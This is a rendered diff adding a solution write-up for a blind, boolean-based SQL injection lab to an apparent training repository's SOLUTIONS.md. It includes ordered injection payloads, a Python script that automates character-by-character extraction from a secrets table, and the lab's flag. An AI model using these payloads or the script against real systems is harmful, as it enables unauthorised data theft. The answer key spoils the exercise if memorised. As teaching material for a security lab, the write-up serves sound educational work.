

Before and after one commit to Cy5ec-rhythm/hackrange, a Markdown page: SOLUTIONS.md, the part around the change. Shown at 80% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Document SQL Injection lab with examples and automation
Added detailed instructions for SQL Injection lab, including payloads and a Python script for automation.

````diff
--- a/SOLUTIONS.md
+++ b/SOLUTIONS.md
@@ -100,6 +100,90 @@ quote does nothing useful here.
 
 ---
 
+## Lab 4: SQL Injection — User Lookup (Blind, Boolean-based)
+
+**Vulnerability:** Boolean-based blind SQL injection. No data or errors
+are ever returned — only a true/false signal ("exists" / "not found").
+Data must be extracted one character at a time by injecting conditions
+that change the boolean outcome.
+
+**Why it's different from the previous labs:**
+UNION SELECT is useless here — there's no data channel to dump into.
+Instead, you inject subquery conditions that ask yes/no questions about
+the data you want, and read the answer from whether the page says
+"exists" or "not found."
+
+**Payloads, in order:**
+
+1. Confirm a valid user exists:
+
+?username=alice
+
+
+2. Confirm the injection point — inject a true condition:
+
+?username=alice' AND '1'='1'--
+
+   Should return "exists" (true condition, query still valid).
+
+3. Inject a false condition to confirm boolean control:
+
+?username=alice' AND '1'='2'--
+
+   Should return "not found" (false condition overrides the match).
+
+4. Confirm you can reach the secrets table:
+
+?username=alice' AND (SELECT COUNT(*) FROM secrets)>0 AND '1'='1'--
+
+   Returns "exists" if the secrets table has at least one row.
+
+5. Extract the flag length first (helps scope your loop):
+
+?username=alice' AND (SELECT LENGTH(secret_value) FROM secrets)=34 AND '1'='1'--
+
+   Increment the number until it returns "exists" — that's the flag length.
+
+6. Extract flag character by character:
+
+?username=alice' AND SUBSTR((SELECT secret_value FROM secrets),1,1)='F' AND '1'='1'--
+?username=alice' AND SUBSTR((SELECT secret_value FROM secrets),2,1)='L' AND '1'='1'--
+?username=alice' AND SUBSTR((SELECT secret_value FROM secrets),3,1)='A' AND '1'='1'--
+
+   Keep incrementing the position index until you've extracted all characters.
+
+7. Automate it with a Python script (recommended — 34 characters
+   manually is tedious):
+```python
+   import requests
+
+   URL = "http://localhost:PORT/"
+   CHARS = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ{}_!"
+   flag = ""
+
+   for i in range(1, 50):
+       for c in CHARS:
+           payload = f"alice' AND SUBSTR((SELECT secret_value FROM secrets),{i},1)='{c}' AND '1'='1'--"
+           r = requests.get(URL, params={"username": payload})
+           if "User exists" in r.text:
+               flag += c
+               print(f"[+] Found char {i}: {c} → {flag}")
+               break
+       else:
+           print(f"[*] Done at position {i}")
+           break
+
+   print(f"\n[+] Flag: {flag}")
+```
+   Replace `PORT` with the actual port shown after clicking Launch lab.
+
+**Flag:** `FLAG{bl1nd_sqli_0ne_b1t_4t_4_t1me}`
+
+**Why it works:** SQLite's `SUBSTR(string, start, length)` lets you
+extract one character at a time. By injecting it as a condition inside
+the WHERE clause, the page's boolean response ("exists"/"not found")
+becomes a data oracle — leaking one bit of information per request.
+
 ## Notes for anyone grading/reviewing this
 
 All three labs share the same root cause — raw string concatenation of
````
